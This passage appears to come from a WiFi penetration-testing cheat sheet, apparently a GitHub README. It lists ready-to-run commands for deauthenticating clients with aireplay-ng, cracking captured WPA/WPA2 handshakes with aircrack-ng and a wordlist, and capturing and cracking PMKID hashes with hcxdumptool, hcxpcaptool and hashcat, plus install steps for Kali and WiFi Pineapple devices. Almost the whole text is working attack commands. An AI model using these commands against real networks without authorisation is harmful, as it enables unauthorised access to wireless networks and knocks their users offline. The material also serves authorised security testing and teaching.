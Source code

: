 ```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack

Crack the WPA/WPA2 authentication without deauthenticating clients.

Install required tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install hcxdumptool
```

\[Optional\] Install required tool on WiFi Pineapple Nano:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).
